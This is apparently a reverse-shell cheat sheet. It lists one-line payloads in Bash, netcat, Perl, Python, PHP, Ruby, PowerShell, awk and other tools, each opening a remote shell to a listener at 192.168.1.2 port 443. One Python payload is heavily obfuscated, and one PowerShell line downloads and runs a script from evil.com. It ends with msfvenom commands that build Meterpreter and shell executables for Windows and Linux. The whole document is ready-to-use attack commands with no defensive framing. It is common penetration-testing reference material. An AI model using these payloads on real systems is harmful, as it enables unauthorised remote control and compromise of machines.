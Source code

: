 * Bash

  ```bash -i >& /dev/tcp/192.168.1.2/443 0>&1```

* Netcat

  ```nc -e /bin/sh 192.168.1.2 443```

  ```nc -e /bin/bash 192.168.1.2 443```

  ```nc -c bash 192.168.1.2 443```

  ```rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.1.2 443 >/tmp/f```

  ```nc.exe -e cmd 192.168.1.26 443```

* Perl

  ```perl -e 'use Socket;$i="192.168.1.2";$p=443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'```

* Python

  ```export RHOST="192.168.1.2";export RPORT=443;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'```

  ```python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.2",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'```

  ```C:\Python27\python.exe -c "(lambda __y, __g, __contextlib: [[[[[[[(s.connect(('192.168.1.2', 443)), [[[(s2p_thread.start(), [[(p2s_thread.start(), (lambda __out: (lambda __ctx: [__ctx.__enter__(), __ctx.__exit__(None, None, None), __out[0](lambda: None)][2])(__contextlib.nested(type('except', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: __exctype is not None and (issubclass(__exctype, KeyboardInterrupt) and [True for __out[0] in [((s.close(), lambda after: after())[1])]][0])})(), type('try', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: [False for __out[0] in [((p.wait(), (lambda __after: __after()))[1])]][0]})())))([None]))[1] for p2s_thread.daemon in [(True)]][0] for __g['p2s_thread'] in [(threading.Thread(target=p2s, args=[s, p]))]][0])[1] for s2p_thread.daemon in [(True)]][0] for __g['s2p_thread'] in [(threading.Thread(target=s2p, args=[s, p]))]][0] for __g['p'] in [(subprocess.Popen(['\\windows\\system32\\cmd.exe'], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE))]][0])[1] for __g['s'] in [(socket.socket(socket.AF_INET, socket.SOCK_STREAM))]][0] for __g['p2s'], p2s.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: (__l['s'].send(__l['p'].stdout.read(1)), __this())[1] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 'p2s')]][0] for __g['s2p'], s2p.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: [(lambda __after: (__l['p'].stdin.write(__l['data']), __after())[1] if (len(__l['data']) > 0) else __after())(lambda: __this()) for __l['data'] in [(__l['s'].recv(1024))]][0] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 's2p')]][0] for __g['os'] in [(__import__('os', __g, __g))]][0] for __g['socket'] in [(__import__('socket', __g, __g))]][0] for __g['subprocess'] in [(__import__('subprocess', __g, __g))]][0] for __g['threading'] in [(__import__('threading', __g, __g))]][0])((lambda f: (lambda x: x(x))(lambda y: f(lambda: y(y)()))), globals(), __import__('contextlib'))"```

* PHP

  ```php -r '$sock=fsockopen("192.168.1.2",443);exec("/bin/sh -i <&3 >&3 2>&3");'```

  ```php -r '$sock=fsockopen("192.168.1.2",443);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'```

* Ruby

  ```ruby -rsocket -e'f=TCPSocket.open("192.168.1.2",443).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'```

  ```ruby -rsocket -e 'exit if fork;c=TCPSocket.new("192.168.1.2","443");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'```

  ```ruby -rsocket -e 'c=TCPSocket.new("192.168.1.2","443");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'```

* Xterm

  ```xterm -display 192.168.1.2:443```


* Ncat

  ```ncat 192.168.1.2 443 -e /bin/bash```

* Powershell

  ```powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("192.168.1.2",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()```

  ```powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('192.168.1.2',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"```

  ```powershell IEX (New-Object Net.WebClient).DownloadString('https://www.evil.com/reverse.ps1')```

* Awk

  ```awk 'BEGIN {s = "/inet/tcp/0/192.168.1.2/443"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null```

* War

  ```msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.2 LPORT=443 -f war > reverse.war strings reverse.war | grep jsp # in order to get the name of the file```

* Msfvenom

  * Windows

### Meterpreter (Metasploit Listener multi/handler) [Staged]

x86 > ```msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 LPORT=443 -f exe > reverse.exe```

x64 > ```msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.2 LPORT=443 -f exe > reverse.exe```

### Shell (Metasploit Listener multi/handler) [Staged]

x86 > ```msfvenom -p windows/shell/reverse_tcp LHOST=192.168.1.2 LPORT=443 -f exe > reverse.exe```

x64 > ```msfvenom -p windows/x64/shell/reverse_tcp LHOST=192.168.1.2 LPORT=443 -f exe > reverse.exe```

### Shell (Netcat Listener) [Stageless]

x86 > ```msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.2 LPORT=443 -f exe > reverse.exe```

x64 > ```msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.2 LPORT=443 -f exe > reverse.exe```

### Linux :

### Meterpreter (Metasploit Listener multi/handler) [Staged]

x86 > ```msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.2 LPORT=443 -f elf > reverse.elf```

x64 > ```msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.1.2 LPORT=443 -f elf > reverse.elf```

### Shell (Metasploit Listener multi/handler) [Staged]

x86 > ```msfvenom -p linux/x86/shell/reverse_tcp LHOST=192.168.1.2 LPORT=443 -f elf > reverse.elf```

x64 > ```msfvenom -p linux/x64/shell/reverse_tcp LHOST=192.168.1.2 LPORT=443 -f elf > reverse.elf```

### Shell (Netcat Listener) [Stageless]

x86 > ```msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.1.2 LPORT=443 -f elf > reverse.elf```

x64 > ```msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.1.2 LPORT=443 -f elf > reverse.elf```
